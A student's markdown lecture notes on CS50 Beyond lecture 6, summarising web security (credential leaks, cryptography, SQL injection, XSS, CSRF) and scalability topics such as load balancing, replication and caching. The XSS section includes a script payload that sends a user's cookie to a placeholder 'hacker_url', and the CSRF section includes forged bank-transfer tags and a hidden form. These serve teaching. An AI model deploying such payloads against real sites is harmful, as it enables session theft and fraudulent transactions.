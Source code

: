 ```yaml
---
path: "/cs50/beyond/6"
date: '2019-06-09'
title: "CS50 Beyond lecture 6 - Security & Scalability"
description: CS50 Beyond lecture 6 정리
image: ''
tags: ['CS50', 'CS50 Beyond', 'Security', 'Scalability']
---
```

> Harvard's CS50 Beyond lecture 6 정리

### Security
making sure that you, your application, and your users are protected by potential security threats and vulnerabilities

#### Git Vulnerabilities
- github repos: anyone can look at the code to take advantage of potential vulnerabilites (bcuz public as default)
    - ex. git commit history: credentials can be exposed
- solutions: 
    - change the credentials
    - git purge (overwrite history)

#### HTML Vulnerabilities
- phishing links: url leads to somewhere different from specified content

#### HTTPS and Cryptography
- securely deliver data from one location to another location
- use __Cryptography__
    - __Secret-key Cryptography__: use a singly key to encrypt and decrypt messages (key & ciphertext is transferred)
        - problem: key is also sent through the internet
    - __Public-key Cryptography__: use public key to encrypt and private key to decrypt message 
        - receiver generates private and public key, shares only the public key to sender, and sender transfers ciphertext which receiver can decrypt using private key

#### Environment Variables
- don't store credentials in repos
- store credentials in environment variables

#### Database Vulnerabilities
database security concerns
- passwords: passwords can be exposed
    - solution: store hashed version of passwords
- data leaks:
    - ex. forgot your password message: indication of which id exists or not
    - ex. response time: can retrieve information based on response time

#### SQL Injection
- database queries that can inject problems to disrupt the SQL database
- solution: use libraries, escape characters

#### JavaScript Vulnerabilities
javascript opens a whole host of potential security vulnerabilites
- __Cross-site Scripting__: injecting javascript to expose private information
```html
<!-- injecting javascript into the request path (url) to reveal cookie of user -->
/<script>document.write('img src="hacker_url?cookie=" + document.cookie + ">"</script>
```
- __Cross-site Request Forgery__: injecting methods to take advantage of requests to expose private information
```html
<!-- automatically fetches src (using request link) leading to transferring money to someone using credentials -->
<img src="http://yourbank.com/transfer?to=brian&amt=2800" />
<!-- another exampler of cross-site request forgery using a form -->
<form action="http://yourbank.com/transfer" method="post">
    <input type="hidden" name="to" value="brian">
    <input type="hidden" name="amt" value="2800">
    <input type="submit" value="click!">
</form>
```
- solution: use a CSRF(Cross-site Request Forgery) token for transfers
    - each form has token and this is validated when sent to server 

### Scalability
what we need to consider for having multiple people using the same application at the same time
- __vertical scaling__: increase the size of the server
- __horizontal scaling__: increase the number of servers
    - use load balancing to handle which server the client should be directed to

#### Benchmarking
load testing the application to figure out how many users the server can handle

#### Load Balancing
- __load balancer__: device that handles which server the user should be directed to
- __Load Balancing Methods__: deciding which server to send the user
    - __fewest connections__: send user to the server w/ the fewest users; can spread out users but may be potentially computationally expensive 
    - __random choice__: randomly assign server; quick but may flock to one server
    - __round robin__: go around each server
- __Session-aware Load Balancing__: preserving sessions while using load balancing to serve pages (to solve problems where user is directed to different servers, losing session information)
    - sticky sessions: load balancer remembers the particular server the user was first directed to
    - sessions in database: store sessions in the database
    - client-side session: store the session in the client-side

#### Auto-scaling
automatically grows or shinks amount of servers based upon the load of the application
- cf) use heartbeat to detect which servers are alive or down

#### Scaling Databases
how to scale databases
- __Database Partitioning__: separate tables in some way
- __Database Replication__: having multiple databases
    - __singly-primary replication__: can only write to the primary database while reading can be distributed to any of the databases (when written to primary db, updates other database based on the primary db)
    - __multi-primary replication__: each db is writable and readable, need to update all other databases when one database is changed
- __Caching__: store data in cache to prevent constantly sending requests to database
    - __client-side caching__: adding cache-control in HTTP header in response (from server) to indicate redundant data to be retrieved from cache next time
        - __entity tag__: entity tag to indicate the version of the document to prevent redundant requests for page
```http
Cache-control: max-age=86400
Etag: "74682038474827847837E83393739"
```
    - __server-side caching__: servers accessing cache instead of database for recent information